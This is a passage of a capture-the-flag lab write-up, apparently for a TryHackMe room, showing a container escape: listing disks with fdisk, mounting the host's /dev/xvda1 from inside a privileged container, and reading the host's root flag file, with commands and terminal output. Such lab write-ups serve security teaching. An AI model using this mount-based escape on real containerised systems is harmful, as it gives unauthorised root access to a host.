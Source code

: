   ![img](https://i.imgur.com/BxTvhXV.png)

- read the root.txt in `/root/root.txt`

---

## task 05: Escape

- we're in a container, let's escape the container and get Host root.txt file.

- reading disk lists revels intresting info:

  ```bash
  fdisk -l

  Disk /dev/xvda: 16 GiB, 17179869184 bytes, 33554432 sectors
  Units: sectors of 1 * 512 = 512 bytes
  Sector size (logical/physical): 512 bytes / 512 bytes
  I/O size (minimum/optimal): 512 bytes / 512 bytes
  Disklabel type: dos
  Disk identifier: 0xa8257195

  Device     Boot    Start      End  Sectors  Size Id Type
  /dev/xvda1 *        2048 32088063 32086016 15.3G 83 Linux
  /dev/xvda2      32090110 33552383  1462274  714M  5 Extended
  /dev/xvda5      32090112 33552383  1462272  714M 82 Linux swap / Solaris

  Disk /dev/xvdh: 1 GiB, 1073741824 bytes, 2097152 sectors
  Units: sectors of 1 * 512 = 512 bytes
  Sector size (logical/physical): 512 bytes / 512 bytes
  I/O size (minimum/optimal): 512 bytes / 512 bytes

  ```

- mounting `/dev/xvda1`

  ```bash
  root@7d5a0b6ac490:/# mkdir /mnt/temp
  mkdir /mnt/temp
  root@7d5a0b6ac490:/# mount /dev/xvda1 /mnt/temp
  mount /dev/xvda1 /mnt/temp

  root@7d5a0b6ac490:/mnt/temp# cd /mnt/temp/
  root@7d5a0b6ac490:/mnt/temp# cd root
  root@7d5a0b6ac490:/mnt/temp/root# cat root*
  cat root*
  THM{flag-was-here}

  ```

---


<script async src="https://pagead2.googlesyndication.com/pagead/js/adsbygoogle.js"></script>
<ins class="adsbygoogle"
     style="display:block; text-align:center;"
     data-ad-layout="in-article"
     data-ad-format="fluid"
     data-ad-client="ca-pub-3526678290068011"
     data-ad-slot="7160066188"></ins>
<script>
     (adsbygoogle = window.adsbygoogle || []).push({});
</script>

